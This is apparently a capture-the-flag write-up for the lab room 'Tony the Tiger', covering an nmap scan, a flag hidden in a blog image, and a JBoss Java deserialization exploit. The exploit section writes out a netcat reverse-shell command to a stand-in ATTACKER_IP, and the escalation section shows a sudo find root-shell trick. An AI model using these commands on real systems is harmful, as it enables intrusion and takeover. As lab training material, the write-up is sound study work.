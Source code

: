 # Tony the Tiger

##### Written: 15/12/2021

##### IP address: 10.10.104.15

*The prompts for this room has been rewritten in this write-up for simplicity sake.*

---

### [ Reconnaissance ]

Let's start things off with a basic **nmap** scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv -T4 10.10.104.15
```

**Results:**

```
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:97:8c:b9:74:d0:f3:9e:fe:f3:a5:ea:f8:a9:b5:7a (DSA)
| ssh-dss
[REDACTED]
|   2048 33:a4:7b:91:38:58:50:30:89:2d:e4:57:bb:07:bb:2f (RSA)
| ssh-rsa 
[REDACTED]
|   256 21:01:8b:37:f5:1e:2b:c5:57:f1:b0:42:b7:32:ab:ea (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 f6:36:07:3c:3b:3d:71:30:c4:cd:2a:13:00:b5:25:ae (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDUpCopvQzPXtEJ8L/lxYpJzOrcLLkU67fx71+Izsx6U
80/tcp   open  http        syn-ack ttl 61 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Hugo 0.66.0
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Tony&#39;s Blog
1090/tcp open  java-rmi    syn-ack ttl 61 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1091/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1098/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1099/tcp open  java-object syn-ack ttl 61 Java Object Serialization
| fingerprint-strings: 
[REDACTED]
4446/tcp open  java-object syn-ack ttl 61 Java Object Serialization
5500/tcp open  hotline?    syn-ack ttl 61
| fingerprint-strings: 
[REDACTED]
8009/tcp open  ajp13       syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open  http        syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss AS
8083/tcp open  http        syn-ack ttl 61 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
```

There are quite a number of ports open, but the ones I'm especially interested in are port **22** (SSH), port **80** (HTTP) and port **8080** (HTTP).

The HTTP web server on port **80** contains a blog page:

<img style="float: left;" src="screenshots/screenshot1.png">

<br>

The HTTP web server on port **8080** contains a **JBoss** application server.

<img style="float: left;" src="screenshots/screenshot6.png">

*JBoss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications.* 

Since the room is all about **Java serialization**, this JBoss server will probably be quite important later on.

---

### [ Find Tony's Flag! ]

Let's focus on Tony's blog first.

The first thing I did was to look for any low-hanging fruit, such as looking at the source code of the page for comments and checking the robots.txt file. There was nothing of interest there.

Next, if we look at the post titled '**My First Post**', we find something interesting:

<img style="float: left;" src="screenshots/screenshot2.png">

Looks like there might be embedded data within the images on the site. Looking around, I managed to find **2** images. I downloaded them onto my machine and tried to see if I could extract any data from them.

In the end, the image that had embedded data was this:

<img style="float: left;" src="screenshots/screenshot3.png">

All I had to do was run `strings` on it and we get Tony's flag within the output:

<img style="float: left;" src="screenshots/screenshot4.png">

---

### [ Exploit! ]

The room tells us to download a zip file which contains the following resources:

<img style="float: left;" src="screenshots/screenshot5.png">

**exploit.py** uses the **ysoserial.jar** file in the file to launch a **remote code execution** attack. It abuses a Java deserialization vulnerability that exists for certain versions of JBoss.

<br>

**Explanation of vulnerability:**

*It was found that the Apache commons-collections library permitted code execution when deserializing objects involving a specially constructed chain of classes. A remote attacker could use this flaw to execute arbitrary code with the permissions of the application using the commons-collections library.*

https://www.rapid7.com/db/vulnerabilities/http-jboss-cve-2015-7501/

<br>

We can use this exploit to launch a reverse shell on the target machine.

```
python2 exploit.py 10.10.104.15:8080 'nc -e /bin/sh ATTACKER_IP 4444'
```

With a netcat listener up and running, I ran the command above:

<img style="float: left;" src="screenshots/screenshot7.png">

And we're in!

---

### [ Find User JBoss' flag! ]

Looking around the machine, I find out that there are **3** users:

<img style="float: left;" src="screenshots/screenshot8.png">

Visiting **jboss'** home directory, there is a hidden text file called **.jboss.txt**:

<img style="float: left;" src="screenshots/screenshot11.png">

This file contains the JBoss flag:

<img style="float: left;" src="screenshots/screenshot12.png">

---

### [ Escalation! ]

There is also another text file called **note**:

<img style="float: left;" src="screenshots/screenshot9.png">

Nice, we have jboss' password! Let's log into his account via SSH:

<img style="float: left;" src="screenshots/screenshot10.png">

If we look at jboss' **sudo privileges**:

<img style="float: left;" src="screenshots/screenshot13.png">

We see that jboss can run the `find` command as **root**!

<br>

**GTFOBins** (https://gtfobins.github.io/gtfobins/find/) provides the following method to exploit this:

<img style="float: left;" src="screenshots/screenshot14.png">

All we have to do is run the following command:

```
sudo find . -exec /bin/sh \; -quit
```

<img style="float: left;" src="screenshots/screenshot15.png">

And just like that, we've opened a root shell.

The root flag can then be found in **/root**:

<img style="float: left;" src="screenshots/screenshot16.png">

It's **base64-encoded**, so let's decode it:

<img style="float: left;" src="screenshots/screenshot17.png">

We get what seems to be a **MD5 hash**. We can try cracking it using my go-to online hash cracker: https://hashes.com/en/decrypt/hash

<img style="float: left;" src="screenshots/screenshot18.png">

And we got the root flag!
